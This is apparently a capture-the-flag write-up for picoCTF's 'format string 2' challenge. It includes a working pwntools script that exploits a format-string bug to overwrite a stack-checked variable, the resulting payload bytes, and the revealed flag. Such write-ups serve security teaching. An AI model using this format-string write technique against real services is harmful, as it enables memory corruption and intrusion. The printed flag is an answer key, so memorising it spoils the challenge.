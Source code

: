 # format string 2

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack! Download the binary [here](https://artifacts.picoctf.net/c_rhea/13/vuln). Download the source [here](https://artifacts.picoctf.net/c_rhea/13/vuln.c).

From the sourcecode, we have the following check:

```c
if (sus == 0x67616c66) {
	// Read and print the flag
}
```

We have to change the value of `sus`, which is initially set to `0x21737573` (`sus!`), to this value (`flag`). We can use `pwntools` to do this:

```python
from pwn import *

context.log_level = "critical"
context.binary = ELF('./vuln')

p = remote('rhea.picoctf.net', int(sys.argv[1]))

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', int(sys.argv[1]))
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)

flag = p.recvall()

print(f'Flag: {flag}')
print(f'Payload: {payload}')

```

This script `exec_fmt()` and `autofmt` to find the offset for the payload (ref: [pwntools Documentation  - fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html)). The `0x404060` is the address of `sus` which can be validated via `objdump -D vuln`:

```
401273:       8b 05 e7 2d 00 00       mov    0x2de7(%rip),%eax        # 404060 <sus>
401279:       3d 66 6c 61 67          cmp    $0x67616c66,%eax
```

```
Flag: b"You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\nHere's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@\nI have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}"
Payload: b'%102c%20$llnc%21$hhn%5c%22$hhn%245c%23$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00'

```

```
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```